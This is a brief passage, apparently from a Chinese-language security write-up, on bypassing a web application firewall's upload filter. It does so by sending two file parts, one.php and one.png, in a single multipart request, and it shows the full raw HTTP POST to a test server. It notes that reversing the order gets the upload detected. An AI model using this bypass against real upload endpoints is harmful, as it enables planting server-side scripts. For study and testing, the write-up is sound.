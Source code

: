 ##### PHP 解析特性绕过

通过提交多个上传请求，利用 waf 和 php 解析不一致绕过。

```bash
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 395
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.php"
Content-Type: application/octet-stream
-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.png"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```

[![](assets/1707954466-478c368f7e0f90ad84ca27c3dbe0566e.png)](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945197953-50ef674c-4ce8-4350-bd14-2fba712f1068.png#averageHue=%23fbfafa&clientId=u74e75591-cad2-4&from=paste&height=473&id=u57dd6958&originHeight=709&originWidth=1622&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=129550&status=done&style=none&taskId=u9cce0c83-0fa4-40cf-ae6c-bd5c46dd058&title=&width=1081.3333333333333)  
调换顺序后被 WAF 检测到  